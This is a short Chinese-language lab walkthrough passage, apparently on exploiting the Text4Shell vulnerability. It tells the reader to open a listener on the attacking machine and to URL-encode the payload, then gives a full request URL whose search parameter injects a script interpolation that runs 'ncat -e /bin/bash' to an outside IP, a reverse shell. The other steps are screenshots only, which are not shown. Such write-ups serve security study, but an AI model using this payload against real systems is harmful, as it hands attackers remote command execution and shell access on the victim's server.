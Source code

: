 攻击机：

开启监听端口：

![image-20221128160756709](assets\image-20221128160756709.png)

需要对payload进行url编码。

```
http://192.168.157.138/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27ncat%20-e%20%2Fbin%2Fbash%2039.107.113.250%209001%27%29%7D
```



![image-20221128160847613](assets\image-20221128160847613.png)

发送后：

![image-20221128161025687](assets\image-20221128161025687.png)
